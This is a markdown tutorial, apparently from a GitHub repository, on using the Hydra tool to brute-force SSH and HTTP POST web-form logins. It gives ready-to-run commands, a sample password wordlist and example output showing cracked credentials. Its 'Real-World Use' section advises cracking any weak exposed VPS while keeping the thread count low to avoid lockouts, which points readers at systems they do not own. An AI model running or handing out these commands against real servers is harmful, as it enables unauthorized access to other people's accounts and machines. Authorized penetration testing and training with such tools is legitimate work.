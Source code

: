 
# Hydra

Hydra is a powerful tool in the THC (The Hacker’s Choice) toolkit for brute-forcing login credentials. It can target a variety of services such as SSH, FTP, HTTP, and more. It's fast and flexible but noisy, so stealth is optional. This guide will focus on using Hydra for cracking SSH and HTTP POST web forms.

## General Syntax

The basic structure of a Hydra command is:

```
hydra [options] <target> <service>
```

- **Options**: Flags like `-l`, `-P`, `-t` to tweak how Hydra attacks.
- **Target**: The IP address or hostname of the target.
- **Service**: The protocol to attack (e.g., `ssh`, `http-post-form`).

---

## Scenario 1: Brute-Forcing SSH

**Purpose**: Crack SSH credentials to gain access to a server.

**Command**:
```
hydra -l <username> -P <full path to pass> <target_IP> -t 4 ssh
```

### Key Options Explained:

- **-l <username>**: Specify the username (e.g., `root`, `admin`, `user`).
- **-P <full path to pass>**: Provide the path to the password list (e.g., `/home/user/passwords.txt`).
- **<target_IP>**: The IP address of the target server (e.g., `10.10.10.10`).
- **-t 4**: Set the number of parallel tasks (threads) to 4 (for faster or slower attacks).
- **ssh**: Indicates the SSH service to target.

**Example**:
```
hydra -l root -P /home/user/passwords.txt 10.10.10.10 -t 4 ssh
```

### Output:
```
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4)
[DATA] attacking ssh://10.10.10.10:22/
[22][ssh] host: 10.10.10.10   login: root   password: toor
```

---

## Scenario 2: Brute-Forcing HTTP POST Web Forms

**Purpose**: Crack login credentials for web forms using HTTP POST requests.

**Command**:
```
hydra -l <username> -P <wordlist> <target_IP> http-post-form "<path>:<login_credentials>:<invalid_response>" -V
```

### Key Options Explained:

- **-l <username>**: Username for the form (e.g., `admin`).
- **-P <wordlist>**: Password list file (e.g., `/home/user/wordlist.txt`).
- **<target_IP>**: Target web server IP (e.g., `10.10.10.10`).
- **http-post-form**: Specifies a POST-based web form attack.
- **"<path>:<login_credentials>:<invalid_response>"**: Configures Hydra to hit the right endpoint and detect login failures.
- **-V**: Verbose mode to show all attempts.

**Example**:
```
hydra -l admin -P /home/user/wordlist.txt 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

### Sample Wordlist:
```
admin
123456
letmein
password123
```

### Output:
```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 4 login tries (l:1/p:4)
[DATA] attacking http-post-form://10.10.10.10//
[ATTEMPT] target 10.10.10.10 - login "admin" - pass "letmein"
[80][http-post-form] host: 10.10.10.10   login: admin   password: letmein
```

---

## Extra Flags to Consider:

- **-L <userlist>**: Try multiple usernames (e.g., `admin`, `user`, `test`).
- **-f**: Stop on first success (useful for quicker results).
- **-s <port>**: Specify a custom port if the target is not on the default port.
- **-t <tasks>**: Adjust the number of threads for faster or slower attacks.
- **-V**: Verbose mode to show each attempt.

---

## Real-World Use:

1. **SSH**: If you find a weak VPS with SSH exposed, use a small wordlist and lower threads to avoid account lockouts.
2. **HTTP POST**: For web forms, inspect the request with tools like Burp Suite, identify the field names, and then use Hydra to crack the login.

---

